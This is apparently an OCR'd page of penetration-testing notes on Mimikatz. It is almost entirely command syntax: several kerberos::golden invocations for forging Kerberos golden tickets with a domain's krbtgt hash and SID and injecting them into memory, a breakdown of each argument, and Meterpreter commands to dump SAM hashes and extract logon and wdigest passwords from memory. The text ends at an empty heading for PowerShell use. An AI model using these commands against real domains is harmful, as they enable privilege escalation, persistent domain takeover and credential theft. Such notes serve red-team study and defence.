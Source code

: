         -   .\\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME
            /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID
            /krbtgt:{NTLM\_hash} /ptt

        -   kerberos::golden /user:utilisateur /domain:chocolate.local
            /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:
            {NTLM\_hash} /id:1107 /groups:513
            /ticket:utilisateur.chocolate.kirbi

        -   kerberos::golden /domain:chocolate.local
            /sid:S-1-5-21-130452501-2365100805-3685010670
            /aes256:{aes\_key}/user:Administrateur /id:500
            /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600
            /renewmax:10080

        -   kerberos::golden /admin:Administrator /domain:CTU.DOMAIN
            /sid:S-1-1-12-123456789-1234567890-123456789
            /krbtgt:{NTLM\_hash} /ticket:Administrator.kiribi

        -   .\\mimikatz \"kerberos::golden /admin:DarthVader
            /domain:[domain.org](http://rd.lab.adsecurity.org) /id:9999
            /sid:S-1-5-21-135380161-102191138-581311202
            /krbtgt:{NTLM\_hash}/startoffset:0 /endin:600
            /renewmax:10080 /ptt\" exit

        -   Arguments Explanation :

            -   / user: the name of the account you want to usurp, its
                existence is not compulsory.\
                / domain: FQDN of the domain\
                / sid: SID of the domain\
                / sids: Other SIDS (groups, users, DC in AD forest \...)
                that you want to spoof.\
                / groups: groups of which the user will be a member.\
                / krbtgt: NTLM hash of the domain KRBTGT account to
                encrypt and sign the ticket.\
                / ticket: (optional) path to a ticket\
                / ptt file : immediately injects the ticket into memory\
                / id (optional) id of the usurped user

    -   **Using mimikatz with meterpreter**

        -   *mimikatz\_command --f \[my\_command\]*

        -   *mimikatz\_command --f samdump::hashes -\>* must be admin

        -   mimikatz\_command -f sekurlsa::searchPasswords   -\>search
            passwords from memory

        -   mimikatz\_command -f sekurlsa::wdigest

        -   mimikatz\_command -f sekurlsa::logonPasswords full

        -   Msv

        -   Kerberos

    -   **Mimikatz with powershell**
